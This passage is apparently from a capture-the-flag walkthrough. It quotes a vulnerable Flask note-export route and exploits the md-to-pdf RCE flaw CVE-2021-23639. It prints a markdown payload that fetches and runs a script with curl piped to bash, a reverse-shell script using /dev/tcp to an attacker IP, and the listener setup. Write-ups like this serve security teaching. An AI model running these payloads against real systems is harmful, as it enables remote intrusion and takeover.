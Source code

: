 ```
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
if check_VIP(session['username']):
try:
url = request.form['url']
status, error = parse_url(url)
if (status is True) and (error is None):
try:
r = pyrequest.get(url,allow_redirects=True)
rand_int = random.randint(1,10000)
command = f"node misc/md-to-pdf.js
$'{r.text.strip()}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")
```

```
command = f"node misc/md-to-pdf.js
$'{r.text.strip()}' {rand_int}"
subprocess.run(command, shell=True, executable="/bin/bash")
```

In a nutshell, it will take a markdown file and turn it into a pdf. Searching CVE's for md-to-pdf leads us to [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880), which allows us to have RCE. To exploit this, we need to use the "Export directly from cloud" feature of the VIP section. This is only visible while logged in as the "blue" user, as regular users do not have "VIP". 

## 5. Exploiting for a user shell

To successfully get RCE, we need the "Export directly from cloud" feature to point to a markdown file that we control. 

I will be using two files to exploit it. Im sure it could work with only one but im too lazy to make it into one file:

uwu.md

```
---js\n((require("child_process")).execSync("curl http://10.10.14.97/payload.sh | bash"))\n---RCE
```

payload.sh
```bash
#! /bin/bash
/bin/bash -l > /dev/tcp/10.10.14.97/4200 0<&1 2>&1
```

The concept is that the markdown file will grab the payload file and execute it on the target. With the exploit written, we now need to setup a simple pyton server and a netcat listener:

```bash
sudo python3 -m http.server 80
```

```bash
nc -lnvp 4200
```

